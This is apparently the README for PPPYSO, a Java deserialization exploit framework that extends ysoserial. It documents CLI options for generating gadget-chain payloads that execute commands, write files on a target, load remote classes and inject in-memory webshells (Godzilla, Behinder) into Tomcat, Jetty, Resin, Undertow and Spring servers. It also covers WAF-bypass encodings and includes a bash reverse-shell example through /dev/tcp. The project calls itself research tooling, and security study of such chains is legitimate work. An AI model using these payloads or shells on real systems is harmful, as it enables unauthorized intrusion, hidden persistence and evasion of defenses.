









# PPPYSO

By. Whoopsunix

# 🚩Introduction

PPPYSO 是一个 Java 反序列化概念验证框架，可以根据配置生成各种增强 Payload，通过动态代理的方式实现 JavaClass 增强减少依赖的同时兼容
`javax/jakarta` 标准。

框架分模块构建，每个模块通过一个 Helper 来管理生成内容，包含以下模块：

### 反序列化模块

参考 [Marshalling Pickles](https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles) 中提到的 gadget
chain 概念，将 [ysoserial](https://github.com/frohoff/ysoserial) 原先的调用链拆分为入口点 (kick-off), 触发点 (sink)
，其余为中间的调用链 (chain)，针对各个部分针对性增强。

- [x] `InvokerTransformer` 功能增强
- [x] `TemplatesImpl` JavaClass增强、AbstractTranslet 可选移除、_bytecodes 特征消除
- [x] 二次反序列化增强
- [x] rome、rometools
- [x] CB serialVersionUID 兼容

### JavaClass 模块

基于子项目 [JavaRce](https://github.com/Whoopsunix/JavaRce) ，在实现上不同。PPPYSO 中通过动态代理的方式实现内存马，减少依赖的同时兼容
javax/jakarta 标准。JavaClass 动态类名、内存马、Rce 回显。

- [x] Loader + Proxy，积极测试兼容中
- [x] 兼容 javax/jakarta 标准

### common 模板

实现序列化数据的加解密、序列化、WAF 绕过等功能

- [x] 序列化：原生、XStream、HexAscii
- [x] WAF 绕过：UTF8Mix 2 3 字节加密
- [x] 结果保存形式：文件、Base64、GZIP

### 交互

目前支持 CLI、Yaml 配置，通过

直接运行生成模板配置文件


Cli 通过 `java -jar PPPYSO-{version}-jar-with-dependencies.jar -g Coherence1 {-h | -help}` 获取帮助信息



### 编译

项目完全开源，可直接下载 Release 版本，或自行编译，编译成功后在 scheduler/target
下生成 `PPPYSO-${version}-jar-with-dependencies.jar`

```
# 安装依赖
mvn clean 
# 打包
mvn clean package -Dmaven.test.skip
```

# 🌏 0x00 Begin

🗿 PPPYSO 是一个概念验证框架，仅为安全研究提供参考，不保证稳定性。

👏 欢迎 issue

# 0x01 URLDNS 增强

```
-g URLDNS
-host
-dp
-cn
-ds
```

URLDNS 支持组件利用链探测和类探测

## 组件探测

`-dp` 指定组件，`all` 探测所有，组件探测参考 [Urldns](https://github.com/kezibei/Urldns)
项目的实现，改了一些类可以通过 `-dp show` 展示目前规则已写的类


eg. `-g URLDNS -host 7ox24q.dnslog.cn -dp "all"`





## 类探测

`-cn` 指定探测的全限定类名，`-ds` 指定对应的子域名
eg. `-g URLDNS -host 4hu16z.dnslog.cn -cn "com.ppp.DNSTest" -ds "pppyso"`


# 0x02 增强功能

通过 `-e | -enchant` 指定增强类型，所有指令忽略大小写

通过 `java -jar PPPYSO-{version}-jar-with-dependencies.jar -g commonscollections1 -show` 获取调用链支持的增强功能，指令均忽略大小写。


## Command 命令执行

```
-e command
-cmd {whoami}
-cmdt {Runtime(Default)|ScriptEngine}
-split
```

通过 `-split` 参数会将命令拆分为 `String[3]` 数组，用这个参数相当于可以指定执行命令所需的终端

eg. `-g commonscollections1 -e command -cmd "bash -c bash -i >&/dev/tcp/ip/1234 0>&1" -split`


通过 `-cmdt` 参数指定命令执行类型

eg. `-g commonscollections2 -e command -cmd "open -a Calculator.app" -cmdt ScriptEngine`


code 也是支持自定义的
eg. `-g commonscollections2 -e command -cmdt ScriptEngine -code "x=new java.lang.ProcessBuilder;x.command('open','-a','Calculator.app');x.start();"`


`InvokerTransformer` 增强的链支持使用 `-cf` 从文件中获取复杂语句
eg. `-g commonscollections2 -e command -cmdt ScriptEngine -cf code.txt`


## Delay 延时

```
-e delay
-dt {/s}
```

通过 `-dt` 指定延时时间 /s

eg. `-g commonscollections2 -e delay -dt 5`


## Socket 发起 socket 请求

```
-e socket
-host {ip:port}
```

通过 `-host` 指定需要发起 socket 请求的地址，用来测试是调用链被 ban 了还是限制了执行命令。

eg. `-g commonscollections2 -e socket -host 127.0.0.1:1234`


## RemoteLoad 远程加载

```
-e RemoteLoad
-url
-cn
-ctor
```

通过 `-url` 指定远程地址，`-cn` 指定远程加载的类名

eg. `-g commonscollections2 -e RemoteLoad -url http://127.0.0.1:1234/ClassLoad-1.0.jar -cn org.example.Exec`


eg. 如何远程加载的类构造方法需要参数，可以通过 `-ctor` 指定，支持 `Int | String` 类型


## FileWrite 文件写入

```
-e FileWrite
-sfp
-lfp
-fc
-append
-split
-part
```

通过 `-sfp` 指定写入远程文件的地址，`-fc` 指定需要写入的内容，或者通过 `-lfp` 从本地读取文件，`-append` 追加写入文件。

eg. `-g commonscollections1 -e FileWrite -sfp /tmp/1.jsp -fc 123456`


`-append` 追加写入


`-split` 设置文件分片后生成， `-part` 指定每个分片的大小，默认 100kb。不过该功能不建议用在 `TemplatesImpl` 增强的链，用
Base64 编码只能分片很小。

eg. `-g commonscollections1 -e FileWrite -sfp /tmp/itest -lfp /tmp/iox -split -part 1000`



# 0x03 JavaClass 增强

## 继承 AbstractTranslet

通过 `-ext` 参数指定 `TemplatesImpl` 增强的类继承 AbstractTranslet


## 自定义加载

```
-e JavaClass
-jht Custom
-jfp {filePath}
```

可以选择加载自定义的 JavaClass，.class 文件或者形如 `yv66vg` 开头的 base64 加密

eg. `-g Fastjson -e JavaClass -jht Custom -jfp testms`

## Rce 回显

通过线程遍历 request 对象实现回显目前测试如下

|        | Version          | Auto Version (正在针对实际环境优化中..) |
|--------|------------------|------------------------------|
| Tomcat | 6-9              | 5-11                         |
| Spring |                  |                              |
| Resin  | [4.0.52, 4.0.66] |                              |
| Jetty  |                  |                              |

通过 `-jht` 参数指定为 Rce 回显，`-mw` 参数指定中间件，`-jt` 指定回显的实现方式，可通过 `AutoFind` 使用线程遍历寻找 request
（正在针对实际环境优化中..)

可选参数默认都是随机生成的，也可以指定

- `-fheader` 指定接收命令的 header key
- `-frheader` 指定命令输出在哪个响应头中，因为实际测试发现 body 很多时候是没法回显了，所以干脆输出到头

```
-e JavaClass
-jht RceEcho
-mw [Tomcat | Jetty ...]
-jt [AutoFind | Default]

-fheader
-frheader
```

eg. `-g commonscollections2 -e JavaClass -jht RceEcho -mw Tomcat -o base64`


## 内存马

内存马这部分的内容还没经过实际环境测试，采用 Loader + Proxy 的方式编写

```
-e JavaClass
-jht MemShell
-mw [Tomcat | Jetty ...]
-ms [Servlet | Listener | Filter ...]
-msf [Exec | Godzilla ...]
-jt [AutoFind | Default]

-fname
-fheader
-frheader
-fpath
-fkey
-fpass
-flk
-flv
```

通过 `-jht` 参数指定为内存马，`-mw` 参数指定中间件，`-ms` 指定内存马类型，`-msf` 指定内存马功能，`-jt`
指定内存马上下文的获取方式，目前计划实现自动线程遍历寻找 request，可通过 `AutoFind` 触发

可选参数默认都是随机生成的，也可以指定

- `-fname` 指定内存马名称
- `-fheader` 指定接收命令的 header key
- `-frheader` 指定命令输出在哪个响应头中，因为实际测试发现 body 很多时候是没法回显了，所以干脆输出到头
- `-fpath` 指定路径
- `-fkey` 指定内存马密钥
- `-fpass` 指定内存马密码
- `-flk` 、`-flv` 指定触发内存马需要的 K-V 值，Contains 关系，比如 User-Agent 中需要存在 `Whoopsunix`。

|                    | remarks                        | Exec | Godzilla | Behinder | Suo5(todo jakarta) | Version Test                        | Auto Version Test (正在针对实际环境优化中..) |
|--------------------|--------------------------------|------|----------|----------|--------------------|-------------------------------------|-----------------------------------|
| Tomcat Servlet     |                                | ✔    | ✔        | ✔        | ✔                  | 7-11                                |                                   |
| Tomcat Filter      |                                | ✔    | ✔        | ✔        | ✔                  | 7-11                                |                                   |
| Tomcat Listener    |                                | ✔    | ✔        | ✔        | ✔                  | 6.0.35, [7.0.59, 7.0.109], 8, 9, 10 | 5-11                              |
| Tomcat Executor    | 通过 Header 交互, Thread Auto Find | ✔    |          |          |                    | 8, 9                                |                                   |
| Tomcat Valve       | 动态代理没有经过实际环境测试                 | ✔    | ✔        | ✔        |                    | 8                                   |                                   |
| Resin Servlet      |                                | ✔    | ✔        | ✔        | ✔                  | [4.0.52, 4.0.66]                    |                                   |
| Resin Filter       |                                | ✔    | ✔        | ✔        | ✔                  | [4.0.52, 4.0.66]                    |                                   |
| Resin Listener     |                                | ✔    | ✔        | ✔        | ✔                  | [4.0.52, 4.0.66]                    |                                   |
| Jetty Listener     |                                | ✔    | ✔        | ✔        | ✔                  | 9, 10                               | 7-11                              |
| Undertow Servlet   |                                | ✔    | ✔        | ✔        | ✔                  | 2.2.25.Final                        |                                   |
| Undertow Listener  |                                | ✔    | ✔        | ✔        | ✔                  | 2.2.25.Final                        |                                   |
| Undertow Filter    |                                | ✔    | ✔        | ✔        | ✔                  | 2.2.25.Final                        |                                   |
| Spring Controller  |                                | ✔    |          |          |                    | 5.3.28                              |                                   |
| Spring Interceptor |                                | ✔    | ✔        |          |                    | 5.3.28                              |                                   |

eg. `-g commonscollections2 -e JavaClass -jht MemShell -mw Tomcat -ms Listener -msf Exec -o base64`


## LocalLoad 本地字节码加载

`InvokerTransformer` 增强的链子也提供了加载字节码的方式，默认采用
ScriptEngineManager，也可以选择 `org.mozilla.javascript.DefiningClassLoader.defineClass()`

```
-lf [Default | RHINO]
```

eg. `-g commonscollections1 -e JavaClass -jht MemShell -mw Tomcat -ms Listener -msf Exec -o base64 -lf rhino`

## JavaClass 封装

JavaClass 单独生成eg. `-e JavaClass -jht MemShell -mw Tomcat -ms Listener -msf Exec -je FreeMarker`


# 0x04 Common 模块

```
-o [Default | GZIP | Base64]
-st [Default | XStream | HexAscii | UTF8Mix]
-save
-close
```

`-save` 指定结果输出到哪个文件

`-close` 关闭除结果外的其他输出

`-o` 指定输出方式，支持按顺序组合输出，eg. `-g commonscollections1 -cmd "open -a Calculator.app" -o gzip,base64`


`-st` 指定序列化输出类型，eg. `-g commonscollections1 -cmd "open -a Calculator.app" -st UTF8Mix`




# 0x05 其他增强

## CB serialVersionUID 冲突

通过 `-cb` 参数指定，可选 `[1.8.3 | 1.6 | 1.5]`，默认 >- 1.9.0 的 serialVersionUID

eg. `-g CommonsBeanutils1 -cmd "open -a Calculator.app" -cb 1.8.3`



| 指令    | CB 版本                             | serialVersionUID     |
|-------|-----------------------------------|----------------------|
|       | >= 1.9.0                          | -2044202215314119608 |
| 1.8.3 | 1.7.0 <= <= 1.8.3                 | -3490850999041592962 |
| 1.6   | >= 1.6 or = 20030211.134440       | 2573799559215537819  |
| 1.5   | >= 1.5 or 20021128.082114 > 1.4.1 | 5123381023979609048  |

## 二次反序列化

`-wrap` 指令进行 SignedObject 二次反序列化封装，主要还是出现在 CTF 题，所以只在 ROME 链打了个样

eg. `-g ROME -cmd "open -a Calculator.app" -wrap`



## Rome Rometools

```
-gd [rome | rometools]
```

通过 -gd 指定 rome 的依赖包 eg. `-g ROME -cmd "open -a Calculator.app" -gd rometools`



# 调用链学习

附上一张 gadget chain 图



# Thanks

感谢师傅们的研究，有很大的帮助 :)

> [@frohoff ysoserial](https://github.com/frohoff/ysoserial)
>
> [@mbechler marshalsec](https://github.com/mbechler/marshalsec)
>
> [@su18 ysuserial]()
>
> [@wh1t3p1g ysomap](https://github.com/wh1t3p1g/ysomap)
>
> [@BeichenDream GodzillaMemoryShellProject](https://github.com/BeichenDream/GodzillaMemoryShellProject)
>
> [@cckuailong JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus)
>
> https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/

